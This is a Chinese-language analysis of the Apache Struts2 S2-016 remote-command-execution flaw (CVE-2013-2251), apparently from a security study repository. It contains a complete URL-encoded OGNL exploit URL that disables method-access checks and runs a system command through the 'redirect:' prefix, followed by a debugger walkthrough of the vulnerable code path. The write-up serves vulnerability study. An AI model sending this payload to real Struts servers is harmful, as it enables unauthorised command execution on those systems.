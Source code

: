 # S2-016 Demo

## Summary

| Who should read this    | All Struts 2 developers and users                            |
| :---------------------- | ------------------------------------------------------------ |
| Impact of vulnerability | Remote command execution                                     |
| Maximum security rating | Highly Critical                                              |
| Recommendation          | Developers should immediately upgrade to [Struts 2.3.15.1](http://struts.apache.org/download.cgi#struts23151) |
| Affected Software       | Struts 2.0.0 - Struts 2.3.15                                 |
| Reporter                | Takeshi Terada of Mitsui Bussan Secure Directions, Inc.      |
| CVE Identifier          | [CVE-2013-2251](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2013-2251) |

## Problem

在`struts2`中，`DefaultActionMapper`类支持以`action:`、`redirect:`、`redirectAction:`作为导航或是重定向前缀，但是这些前缀后面同时可以跟`OGNL`表达式，由于`struts2`没有对这些前缀做过滤，导致利用`OGNL`表达式调用`java`静态方法执行任意系统命令。

## Environment

| Struts2 Version | struts-2.2.3           |
| --------------- | ---------------------- |
| Server          | Tomcat 8.5.53          |
| IDE             | idea 2020.1.1 ULTIMATE |

## POC

![{D52E437C-44A0-486D-97BE-29F2AFCC8FD4}_20200722102709]({D52E437C-44A0-486D-97BE-29F2AFCC8FD4}_20200722102709.jpg)

Payload: 

```
http://localhost:8080/s2_016_war_exploded/index.action?redirect:%24%7B%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3Dfalse%2C%23f%3D%23_memberAccess.getClass%28%29.getDeclaredField%28%22allowStaticMethodAccess%22%29%2C%23f.setAccessible%28true%29%2C%23f.set%28%23_memberAccess%2Ctrue%29%2C%23a%3D@java.lang.Runtime@getRuntime%28%29.exec%28%22calc%22%29.getInputStream%28%29%2C%23b%3Dnew%20java.io.InputStreamReader%28%23a%29%2C%23c%3Dnew%20java.io.BufferedReader%28%23b%29%2C%23d%3Dnew%20char%5B5000%5D%2C%23c.read%28%23d%29%2C%23genxor%3D%23context.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29.getWriter%28%29%2C%23genxor.println%28%23d%29%2C%23genxor.flush%28%29%2C%23genxor.close%28%29%7D
```

## Debug

首先在`DefaultActionMapper`类中处理`redirect:`处下个断点：

`s2-016/web/WEB-INF/lib/struts2-core-2.2.3.jar!/org/apache/struts2/dispatcher/mapper/DefaultActionMapper.class:70`

![image-20200724114013659](img/image-20200724113754527.png)

然后一直点击调试栏红色X的按钮（Drop frame），可以倒退执行过程，就大概了解流程是怎样的了。一直点击回到`struts2`的初始过滤器`FilterDispatcher`。

关注两点，第一是`redirect:<ognl>`是如何被处理的；第二，`payload`是如何被解析的。

在`FilterDispatcher`类的`dofilter()`函数下个断点，它负责拦截所有的用户请求。

`s2-016/web/WEB-INF/lib/struts2-core-2.2.3.jar!/org/apache/struts2/dispatcher/FilterDispatcher.class:181`

![image-20200723111523847](img/dofilter.png)

`doFilter`先进行创建值栈、上下文、包装request等一些初始化操作，然后进入`getMapping()`方法，通过`uri`解析对应的action配置信息，例如`namespace`、`actionname`、`method`。跟进`getMapping()`：

![image-20200723111435992](img/getMapping.png)

`parseNameAndNamespace()`方法根据`uri`和配置文件中的`namespace`进行对比来判断`namespace`。`hadleSpecialParameters()`方法顾名思义是处理某些特殊参数。跟入`hadleSpecialParameters()`：

![image-20200723111152848](img/handleSpecialParameters.png)

首先获取到request中所有参数名，遍历看是否有以`.x`和`.y`结尾的参数名，`prefixTrie.get(key)`判断参数名是否都是有效字符。

再跟入`parameterAction.execute()`，可以看到`redirect.setLocation()`方法将`redirect:`后面的内容设置为了`location`。

![image-20200723115019593](img/redirect.png)

到这里第一个问题知道了，就是`redirect:`后面的`ognl`表达式进入了`location`参数。

再看看这个location什么时候被解析。回到`doFilter()`，继续往下进入`serviceAction()`：

![image-20200723145024705](img/execute.png)

先获取Configuration对象，通过Configuration得到容器对象，再从容器中获取`ActionProxyFactory`工厂类创建`ActionProxy`动态代理。

`mapping.getResult()`不为null，根据Result配置创建出相应的Result对象，然后执行Result的execute方法。跟入execute()：

```java
    public void execute(ActionInvocation invocation) throws Exception {
        this.lastFinalLocation = this.conditionalParse(this.location, invocation);
        this.doExecute(this.lastFinalLocation, invocation);
    }
```

到了熟悉的地方——`conditionalParse()`方法，该函数用于处理跳转地址location，会判断location是否有`ognl`表达式，有的话将会执行表达式。一直跟入`translateVariables()`，到`stack.findValue()`触发执行`ognl`表达式。

![image-20200723151111362](img/frame.png)

## Reference

- [S2-016](https://cwiki.apache.org/confluence/display/WW/S2-016)
- [S2-016 远程代码执行漏洞]( https://github.com/vulhub/vulhub/blob/master/struts2/s2-016/README.zh-cn.md)

